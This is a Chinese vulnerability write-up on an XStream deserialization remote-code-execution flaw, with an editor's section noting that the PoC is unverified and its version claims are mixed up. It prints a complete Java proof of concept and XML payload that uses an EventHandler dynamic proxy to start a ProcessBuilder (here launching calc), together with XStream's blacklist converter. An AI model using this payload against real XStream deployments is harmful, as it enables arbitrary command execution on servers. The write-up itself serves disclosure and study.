



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：列&lt;=1.4.6及=1.4.10，正文比较1.4.7/1.4.11安全机制，需分清历史CVE与配置条件

代码与实验材料：完整expGen和fromXML，但生成TreeSet时可能先触发ProcessBuilder，命令弹窗无法唯一归因反序列化

来源证据范围：polaris-lab原文，缺官方公告/patch

- **结论使用边界（1）**：生成器本身会执行被测行为；依据：expGen中TreeSet.add动态代理会调用compareTo→EventHandler.start，在fromXML之前已调用，不能只用弹calc作为漏洞验证。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（2）**：影响范围混入旧漏洞；依据：&lt;=1.4.6对应文中引用2013-7285历史阶段，2019编号范围需官方核实，不能无区别并列。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（3）**：安全初始化与黑白名单概念含混；依据：“1.4.10黑名单未开启”无配置代码，需明确setupDefaultSecurity及用户权限设置，而非版本一刀切。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2019-10173）Xstream 远程代码执行漏洞
==========================================

一、漏洞简介
------------

Xstream 1.4.10版本存在反序列化漏洞CVE-2013-7285补丁绕过。

二、漏洞影响
------------

XStream \<= 1.4.6

XStream = 1.4.10

三、复现过程
------------

### poc

    package com.bigo;

    import com.thoughtworks.xstream.XStream;

    import java.beans.EventHandler;
    import java.io.IOException;
    import java.util.Set;
    import java.util.TreeSet;

    /**
     * Created by cfchi on 2019/7/26.
     */
    public class Main {
        public static String expGen(){
            XStream xstream = new XStream();
            Set<Comparable> set = new TreeSet<Comparable>();
            set.add("foo");
            set.add(EventHandler.create(Comparable.class, new ProcessBuilder("calc"), "start"));
            String payload = xstream.toXML(set);
            System.out.println(payload);
            return payload;
        }
        public static void main(String[] args) throws IOException {
            expGen();
            XStream xStream = new XStream();
            String payload = "<sorted-set>\n" +
                    "    <string>foo</string>\n" +
                    "    <dynamic-proxy>\n" +
                    "    <interface>java.lang.Comparable</interface>\n" +
                    "        <handler class=\"java.beans.EventHandler\">\n" +
                    "            <target class=\"java.lang.ProcessBuilder\">\n" +
                    "                <command>\n" +
                    "                    <string>cmd.exe</string>\n" +
                    "                    <string>/c</string>\n" +
                    "                    <string>calc</string>\n" +
                    "                </command>\n" +
                    "            </target>\n" +
                    "     <action>start</action>"+
                    "        </handler>\n" +
                    "    </dynamic-proxy>\n" +
                    "</sorted-set>\n";
           xStream.fromXML(payload);
        }
    }

### 1.4.7版本白名单

Xstream远程代码执行漏洞/media/rId26.png)

### 1.4.10版本，黑名单未开启

Xstream远程代码执行漏洞/media/rId28.png)

### 1.4.11版本，黑名单开启

#### 黑名单

    private class InternalBlackList implements Converter {
        private InternalBlackList() {
        }

        public boolean canConvert(Class type) {
            return type == Void.TYPE || type == Void.class || !XStream.this.securityInitialized && type != null && (type.getName().equals("java.beans.EventHandler") || type.getName().endsWith("$LazyIterator") || type.getName().startsWith("javax.crypto."));
        }

        public void marshal(Object source, HierarchicalStreamWriter writer, MarshallingContext context) {
            throw new ConversionException("Security alert. Marshalling rejected.");
        }

        public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
            throw new ConversionException("Security alert. Unmarshalling rejected.");
        }
    }

Xstream远程代码执行漏洞/media/rId31.png)

参考链接
--------

> http://www.polaris-lab.com/index.php/archives/658/
